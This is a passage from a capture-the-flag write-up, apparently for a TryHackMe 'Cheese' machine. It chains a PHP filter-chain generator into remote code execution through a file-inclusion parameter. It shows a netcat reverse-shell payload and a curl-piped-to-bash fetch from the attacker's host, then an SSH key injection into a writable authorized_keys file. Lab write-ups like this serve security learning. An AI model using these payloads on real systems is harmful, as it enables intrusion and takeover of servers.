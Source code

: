 > [GitHub](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) - PHP filter chain generator
> 
> A CLI to generate PHP filters chain, get your RCE without uploading a file if you control entirely the parameter passed to a require or an include in PHP!
{: .prompt-info}

```console
m3ga@kali:~$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?> '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>  (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiA)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.bas...
```

Copying the script's output and adding it to `?file=` results in our `phpinfo()` being executed.

![](<Pasted image 20240927230559.png>){: w="700" h="300" .center }

To get a reverse shell on the system, I first saved my payload in a file called `payload.sh`.
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.75.248 53 >/tmp/f"); ?>
```

Then I started a web server and generated a filter chain to execute `system("curl 10.11.75.248/payload.sh | /bin/bash"`.

```console
m3ga@kali:~$ python3 php_filter_chain_generator.py --chain '<?php system("curl 10.11.75.248/payload.sh | /bin/bash"); ?> '
[+] The following gadget chain will generate the following code : <?php system("curl 10.11.75.248/payload.sh | /bin/bash"); ?>  (base64 value: PD9waHAgc3lzdGVtKCJjdXJsIDEwLjExLjc1LjI0OC9wYXlsb2FkLnNoIHwgL2Jpbi9iYXNoIik7ID8+IA)
...
```

Copying the output and adding it to `?file=`, I got a shell back as `www-data`.
```console
m3ga@kali:~$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.11.75.248] from (UNKNOWN) [10.10.151.5] 34904
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cheesectf:/var/www/html$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After enumerating the machine a little, I found out that the user `comte`'s `authorized_keys` file is writable by us. 
```console
www-data@cheesectf:/home/comte/.ssh$ ls -la
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4 17:26 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys
```

To exploit this misconfiguration, we can generate a public/private key pair and add our public key to the `authorized_keys` file. And then connect to the target using the private key.
```console
m3ga@kali:~/tryhackme/Cheese$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/m3ga/.ssh/id_rsa): ./id_rsa_comte
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa_comte
Your public key has been saved in ./id_rsa_comte.pub
...

www-data@cheesectf:/home/comte/.ssh$ echo 'ssh-rsa AAAA... m3ga@kali' >> authorized_keys
```